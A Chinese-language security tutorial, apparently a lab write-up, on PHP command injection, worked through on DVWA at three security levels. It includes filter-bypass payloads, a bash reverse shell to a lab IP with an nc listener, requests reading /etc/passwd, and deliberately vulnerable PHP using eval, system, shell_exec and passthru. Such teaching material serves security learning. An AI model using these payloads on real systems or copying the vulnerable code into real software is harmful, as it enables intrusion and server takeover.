# 命令注入漏洞

## 1.1 漏洞信息

### 1.1.1 漏洞成因

应用有时需要调用一些执行系统命令的函数，如`PHP`中的`system`、`exec`、`shell_exec`、
`passthru`、`popen`、`proc_popen`等，当用户能控制这些函数中的参数时，就可以将恶意系统命令。
拼接到正常命令中，从而造成命令注入攻击，这就是命令注入漏洞。

### 1.1.2 利用条件

1.应用调用执行系统命令的函数
2.将用户输入作为系统命令的参数拼接到了命令行中
3.没有对用户输入进行过滤或过滤不严

### 1.1.3 漏洞分类

1.代码层过滤不严
商业应用的一些核心代码封装在二进制文件中，在`web`应用中通过`system`函数来调用：
`system("/bin/program --arg $arg")`;
2.系统的漏洞造成命令注入
`bash`破壳漏洞(`CVE-2014-6271`) (请自行百度)
3.调用的第三方组件存在代码执行漏洞
如`WordPress`中用来处理图片的`ImageMagick`组件 (请自行百度)
`JAVA`中的命令注入漏洞(`struts2/ElasticsearchGroovy`等) (请自行百度)
`ThinkPHP`命令注入 (请自行百度)

### 1.1.4 漏洞危害

继承`Web`服务程序的权限去执行系统命令或读写文件
反弹`shell`
控制整个网站甚至控制服务器
进一步内网渗

### 1.1.5 漏洞复现

#### 低级

打开浏览器，在地址栏输入`dvwa IP`地址，输入默认账号帐号 `admin` 密码 `password`
将安全级别设为`low`，点击`submit`提交。再进入`Command Injection`(命令注入漏洞实验界面)。



先让我们对命令注入漏洞进行一个初步利用
让我们先执行一段命令，在输入框输入`www.baidu.com`，点击`submit`提交



可以看到成功回显执行结果，说明`ping www.baidu.com`命令成功。
让我们随机输入字符，这里我们就输入`abc`



从回显结果中我们可以看出，在假定用户正确输入的情况下，输入的只能是ip地址，将ip地址与ping命令拼接上，从而完成ping ip的命令，abc因为错误的格式，无法回显，即无法执行。

我们再输入框输入`www.baidu.com&ifconfig`，点击submit提交，可以看到不仅`ping`命令成功执行，并且后面的`ifconfig`命令也成功执行。(`ifconfig`是`linux`中用于显示或配置网络设备（网络接口卡）的命令，英文全称是`network interfaces configuring`。)



鼠标右键查看源文件，查看low环境下，命令注入漏洞的代码



`low`环境下产生命令注入漏洞处的代码，其中实验的关键代码：	`\$target= $_REQUEST[ 'ip' ];`

这条语句就是直接把用户输入的IP赋值给`$target`，没有做任何过滤，如果是用户正常输入IP那么正常执行，如果用户输入的不是IP？这里就涉及业务逻辑了，漏洞的产生就是源于程序员对于此处用户输入的信任。以至于对入用户输入没有进行任何的过滤，为命令注入攻击发生提供了条件。

​       接下来有一个if语句，判断条件是“`stristr(php_uname('s'),'Windows NT')`”，这是用来判断当前的系统是否是`Windows`，因为`Windows`和`Linux`下的`ping`命令注入参数是不同的。
再下面是将函数“`shell_exec( 'ping ' . \$target )`”的值赋值给变量`\$cmd`，并输出`\$cmd`的值，其实也就是在执行``shell_exec('ping ' . \$target )`”函数，因而`shell_exec()`函数就是这里的核心了。
`shell_exec()`函数的作用就是可以在PHP中去执行[操作系统命令，因而如果不对用户输入的命令进行过滤，那么理论上就可以执行任意系统命令，也就相当于直接获得了系统级的`Shell`，因而命令包含漏洞的威力相比`SQL`注入要大多了。

#### 中级

登录`DVWA`，设置安全环境为`medium`。进入`Command Injection`(命令注入漏洞实验界面)。(如若已登录，则可略去登陆步骤，直接设置安全环境)



从代码中可以看出，现运用数组的方式建立了一个黑名单 

`$substitutions = array('&&' => '' , ';' => '',);`

这行语句的意思是定义了一个数组并赋值给变量`$substitutions`，数组中包括2个键：`&&`和`;`，它们对应的值都是NULL。

```
\$target =str_replace( array_keys( \$substitutions ), \$substitutions, `$target );
```


这行语句是用`str_replace`函数对`\$target`变量中的字符进行替换，替换的方法是将`array_keys( \$substitutions )`替换成`$substitutions`，也就是将`&&`和`;`都替换成空值。

输入`www.baidu.com|ifconfig`



可以看到两个命令回显，成功绕过。

#### 高级

`high`环境代码分析
登录`DVWA`，设置安全环境为`high`。进入`Command Injection`(命令注入漏洞实验界面)。(如若已登录，则可略去登陆步骤，直接设置安全环境)
鼠标右键查看源文件，查看`high`环境下，命令注入漏洞的代码

`high`环境相对于`medium`环境并没有多大改变，只是将黑名单数组`array`进行了扩充，相比`medium`增加了不少，这里就不过多赘述，请自行比较。细心观察我可以发现黑名单中`'| '`中`|`后多了个空格。这样我们仍然可以用`|`绕过。
从回显结果可以看到成功绕过。



## 1.2 反弹shell

在`kali`上使用`nc`监听端口
 `nc -lvnp 5555`
在`dvwa web`页面输入攻击`payload` :
`127.0.0.1|bash -i >& /dev/tcp/172.16.1.2/5555 0>&1`



在`kali`终端获得`shell`



可以查看`web`源码及配置文件



## 1.3 命令注入常见函数

#### 1.3.1 eval()函数造成的命令注入漏洞

```
1、函数用法
eval（phpcode）
Phpcode 规定要计算的php代码。通常用分号结束每句代码的执行。
2、环境源码：

<?php
$var = "var";
if(isset($_GET["name"])){
    $arg = $_GET["name"];
    eval("\$var=$arg;");
    echo "\$var = ".$var;
}

?>
构造语句：

name=phpinfo()
```

测试效果：
http://172.16.3.186/eval.php?name=phpinfo()



#### 1.3.2 system()函数造成的漏洞

```

1、函数用法:
System(string command,int &return_var)
Command 要执行的命令
Return_var 存放命令的执行后的状态值
2、环境源码：

<?php
$cmd = $_GET['cmd'];
if(isset($cmd)){
    echo system("dir".$cmd);
}
?>
构造语句：
Cmd=| /etc/passwd

```

测试：`http://172.16.3.186/system.php?cmd=|cat%20%20/etc/passwd`



#### 1.3.3 shell_exec()函数造成的漏洞

```
1、函数用法：
shell_exec(string command)
command 要执行的命令
2、环境源码：

<?php
$cmd = $_GET['cmd'];
if(isset($cmd)){
    echo "<h3>";
    echo shell_exec("dir".$cmd);
    echo "<h3>";
}
?>
4、 测试：
构造语句： | whoami

```

测试：`http://172.16.3.186/shell_exec.php?cmd=|whoami`



#### 1.3.4 passthru()函数造成的漏洞

```

1、函数用法：
void passthru (string command, int &return_var)
command 要执行的命令
return_var 存放执行命令后的状态值

同 exec() 函数类似， passthru() 函数 也是用来执行外部命令（command）的。 当所执行的 Unix 命令输出二进制数据， 并且需要直接传送到浏览器的时候， 需要用此函数来替代 exec() 或 system() 函数。
2、环境源码：

<?php
$cmd = $_GET['cmd'];
if(isset($cmd)){

    echo passthru($cmd);
}
?>
3、测试
构造语句 cmd=whoami
```

http://172.16.3.186/passthru.php?cmd=whoami


